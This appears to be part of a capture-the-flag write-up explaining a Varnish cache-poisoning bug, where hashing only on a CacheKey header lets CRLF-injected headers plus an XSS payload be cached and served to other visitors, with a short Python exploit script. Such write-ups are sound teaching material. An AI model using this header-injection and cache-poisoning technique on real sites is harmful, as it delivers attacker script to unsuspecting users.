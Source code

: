 At the `vcl_backend_response` subroutine, which is used to forward the response from the backed to the client, the `CacheKey` header is checked for the value `enabled`. If this header is sent from the backend the response is cached for 10 seconds.

```vcl
sub vcl_hash {
    hash_data(req.http.CacheKey);
    return (lookup);
}
```

The `vcl_hash` is used to join the components of which `varnish` creates the hash that identifies clients. In this instance only the `CacheKey` header is used for this, we can abuse this to cause cache poisoning since we can inject arbitrary headers.

![img](./assets/diagram.png)

If we inject the arbitrary `Content-Type` or `X-Content-Type-Options` header alongside the `CacheKey` = `enabled` header and the XSS payload in the `mode` parameter varnish will cache the malicious response for 10 seconds, so after this any user visiting that endpoint will recieve the cached response, this happens because headers by themsevles are not supposed to be used as hash_data.

```py
import requests, urllib

encoded_xss = urllib.parse.quote("<script>alert(0)</script>")

injected_headers = "\r\nCacheKey: enable\r\nX-Content-Type-Options: undefined"
encoded_headers = urllib.parse.quote(injected_headers)

requests.get(f"{CHALLENGE_URL}/oracle/{encoded_xss}/1{encoded_headers}")
```
